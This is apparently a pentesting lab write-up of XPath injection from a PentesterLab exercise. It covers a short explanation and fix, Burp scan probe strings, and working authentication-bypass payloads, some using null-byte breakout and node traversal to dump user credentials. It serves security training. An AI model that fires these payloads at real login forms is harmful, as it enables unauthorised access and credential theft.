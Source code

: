 #### 1.1. About

- similar attack to SQL injection (PHP warning: `SimpleXMLElement::xpath()`)
- SQL injection payloads could be used for detection
- to fix use a parameterized XPath interface or perform input validation (replace `'` with `&apos;`)


#### 1.2. LAB
```
https://pentesterlab.com/exercises/xml_02/course
http://ptl-cbe1cc58-d2ba8d94.libcurl.so
```


#### 1.3. Original request
```
GET /?name=test&password=pass HTTP/1.1
Host: ptl-daa08d37-1adc53b7.libcurl.so
Connection: close
```


#### 1.4. Burp scan
```
?name=test87604496'+or+false()+or+''='o&password=pass
?name=xxx'+or+true()+or+''='o&password=pass
?name=test&password=pass41032732'+or+true()+or+''='o
?name=hacker&password=pass36432554'+or+false()+or+''='o
```
Note: both `name` and `password` parameters are injectable


#### 1.5. Authentication bypass

Method 1:
```
?name=admin&password=pass36432554'+or+true()+or+''='x
```

Method 2:
```
?name=admin']%00&password=pass         (break out of the original XPath query)
?name=admin'+or+1=1]%00&password=pass  (return all users)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get the child node)
?name=admin'+or+1=1]/parent::*/child::node()%00&password=pass (get user credentials)
?name='+or+1=1]/parent::*/child::node()%00&password=pass      (get all credentials)
```
